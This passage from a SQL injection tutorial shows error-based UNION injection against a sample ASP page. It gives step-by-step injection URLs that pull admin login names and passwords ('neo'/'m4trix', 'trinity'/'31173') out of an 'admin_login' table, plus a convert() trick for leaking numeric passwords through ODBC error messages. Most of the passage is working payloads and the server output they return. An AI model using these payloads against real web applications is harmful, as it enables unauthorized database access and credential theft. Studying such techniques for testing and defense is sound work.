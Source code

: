 #### 8. How to retrieve any data we want?
Now that we have identified some important tables, and their column, we can use the same technique to gather any information we want from the database. Now, let's get the first login_name from the "admin_login" table: 
```sql
http://duck/index.asp?id=10 UNION SELECT TOP 1 login_name FROM admin_login--
```
Output: 
```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'neo' to a column of data type int. 

/index.asp, line 5
```
We now know there is an admin user with the login name of "neo". Finally, to get the password of "neo" from the database: 
```sql
http://duck/index.asp?id=10 UNION SELECT TOP 1 password FROM admin_login where login_name='neo'--
```
Output: 
```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error 
converting the nvarchar value 'm4trix' to a column of data 
type int. 

/index.asp, line 5
```
We can now login as `"neo"` with his password `"m4trix"`. 

#### 9. How to get numeric string value?

There is limitation with the technique describe above. We cannot get any error message if we are trying to convert text that consists of valid number (character between 0-9 only). Let say we are trying to get password of `"trinity"` which is `"31173"`:
```sql
http://duck/index.asp?id=10 UNION SELECT TOP 1 password FROM admin_login where login_name='trinity'--
```
We will probably get a `"Page Not Found"` error. The reason being, the password `"31173"` will be converted into a number, before `UNION` with an integer (10 in this case). Since it is a valid `UNION` statement, SQL server will not throw ODBC error message, and thus, we will not be able to retrieve any numeric entry.
To solve this problem, we can append the numeric string with some alphabets to make sure the conversion fail. Let us try this query instead: 
```sql
http://duck/index.asp?id=10 UNION SELECT TOP 1 convert(int, password%2b'%20morpheus') FROM admin_login where login_name='trinity'--
```
We simply use a plus sign `(+)` to append the password with any text we want. **(ASSCII code for '+' = 0x2b)**. We will append `'(space)morpheus'` into the actual password. Therefore, even if we have a numeric string `'31173'`, it will become `'31173 morpheus'`. By manually calling the convert() function, trying to convert `'31173 morpheus'` into an integer, SQL Server will throw out ODBC error message: 
```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value '31173 morpheus' to a column of data type int. 

/index.asp, line 5
```
Now, you can even login as 'trinity' with the password '31173'. 

